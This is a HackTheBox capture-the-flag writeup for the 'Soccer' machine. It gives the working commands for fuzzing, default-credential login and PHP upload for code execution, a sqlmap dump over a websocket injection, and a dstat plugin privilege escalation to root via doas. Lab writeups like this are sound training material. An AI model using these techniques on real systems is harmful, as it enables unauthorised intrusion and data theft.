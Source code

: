 ```yaml
---
layout: post
title: "Soccer"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


first nmap

`sudo nmap -sC -sV -p- -oN soccer -T4 10.10.11.194
`
![[Pasted image 20240524224700.png]]

starting with the web port 80

nothing interesting at the main page let's fuzz
![[Pasted image 20240524224828.png]]

we got tiny
`ffuf -u http://soccer.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic
`
![[Pasted image 20240524224903.png]]

we have tiny file manager
![[Pasted image 20240524224934.png]]

a quick google search got as the default creds ==admin admin@123==
we can upload anything we want , so let's upload a php file and get rce 

![[Pasted image 20240524225229.png]]

![[Pasted image 20240524225251.png]]

nothing Interesting , I will run ==linpeas== 

we got another subdomain , listening on port 80 
![[Pasted image 20240524225701.png]]

after adding it to our /etc/hosts file  
![[Pasted image 20240524225753.png]]

same website but new functionality 

let's create new account and login into the app 

we got this /check page , it seems like it's check for a ticket if it's available in the database 

![[Pasted image 20240524230140.png]]

![[Pasted image 20240524230153.png]]

the weird thing is I try to intercept this request but I can't catch it 
![[Pasted image 20240524230353.png]]

if we want to catch this , we need to start intercepting from the beginning , like from the sign-in part that's at least what I learned from watching ippsec solving it 

![[Pasted image 20240524230529.png]]

there's a  boolean injection via this websocket , if the query i correct returns Exists else return doesn't exist
![[Pasted image 20240524230732.png]]
let's use ==sqlmap== to exploit it 
`sqlmap -u ws://soc-player.soccer.htb:9091  --data '{"id":"80989"}' --dbms  mysql --risk 3 --level 5 --batch --dump --thread 10
`
![[Pasted image 20240524230947.png]]

we can ssh as player
![[Pasted image 20240524231335.png]]

`find / -perm -4000 2>/dev/null
`
![[Pasted image 20240524231328.png]]

![[Pasted image 20240524231422.png]]


small research about doas seems like small sudo o something like that 
and we need to find a doas.conf file so we now which command is running 

we can run ==dstat== as root
`cat /usr/local/etc/doas.conf`
![[Pasted image 20240524231722.png]]
https://gtfobins.github.io/gtfobins/dstat/
![[Pasted image 20240524231758.png]]

`echo 'import os; os.execv("/bin/bash", ["bash"])' > /usr/local/share/dstat/dstat_d0s3nt.py`
`doas -u root /usr/bin/dstat --d0s3nt`

![[Pasted image 20240524232504.png]]